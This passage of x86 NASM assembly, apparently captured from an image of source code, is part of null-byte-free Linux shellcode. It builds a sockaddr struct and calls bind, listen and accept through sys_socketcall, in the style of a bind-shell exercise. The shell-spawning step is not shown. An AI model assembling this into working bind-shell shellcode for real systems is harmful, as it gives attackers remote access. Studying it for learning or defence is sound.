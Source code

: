 ```nasm
int 0x80

; file descriptor now in eax

bind:

;set up sockaddr_in struct
;sin_zero = is 8 bytes trash, so existing stack data can be used
;http://beej.us/guide/bgnet/output/html/multipage/sockaddr_inman.html

;sin_add.s_addr localhost constant
;avoiding nullbytes
;push 0x0100007f <-- not doable then
;ebx is 0x1 from before, shift it into correct position
shl ebx, 0x18
mov bl, 0x7f ;enter last part
push ebx
xor ebx,ebx ;zero out ebx

;AF_INET (0002) and sin_port ffff
;push 0xcdab0002 <-- zero bytes
mov cx, 0xcdab ; port number
shl ecx, 0x10
mov cl, 0x2 ; <-- AF_INET
push ecx

;setup arguments
mov [esp-8],esp ;load the sockaddr struct address  on the stack at correct offset

push 0x10 ; size of sockaddr_in is 16 bytes

sub esp,0x4 ; correct the stack offset because of preload of sockaddr_in struct

push eax ; file descriptor

mov al, 0x66 ;sys_socketcall
mov bl, 0x2 ; bind(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
mov ecx, esp ;arguments
int 0x80

listen:

mov dword [esp+4], eax ;backlog argument should be 0, use success return value (0) from bind

;esp points towards file descriptor from before, so no need to set the argument

mov al, 0x66 ;sys_socketcall
mov bl, 0x4 ; listen(int sockfd, int backlog);
mov ecx, esp ;arguments
int 0x80

accept:
push 0x10 ;addrlen
push esp ; address of it
lea ecx, [esp+0x10] ; address to sockaddr struct
push ecx ;push it as it is an argument
push dword [esp+0xC] ; sockfd

mov al, 0x66 ;sys_socketcall
mov bl, 0x5 ; accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
mov ecx, esp ;arguments
int 0x80

```